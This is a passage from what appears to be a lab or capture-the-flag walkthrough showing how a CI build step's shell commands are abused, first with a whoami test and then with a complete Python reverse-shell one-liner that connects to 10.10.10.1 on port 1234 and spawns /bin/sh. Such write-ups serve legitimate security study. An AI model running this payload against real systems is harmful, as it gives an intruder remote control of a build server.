 And adding build steps in the Build Environment that will execute shell commands. I’m going to test it with a simple whoami command:

<figure><img src="../../.gitbook/assets/internal66.png" alt=""><figcaption></figcaption></figure>

We have to build the project, and after that we can check the console output of the build:

<figure><img src="../../.gitbook/assets/internal67.png" alt=""><figcaption></figcaption></figure>

So, once we have seen that it works, let’s try to obtain a reverse shell by executing this commands:

```jsx
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
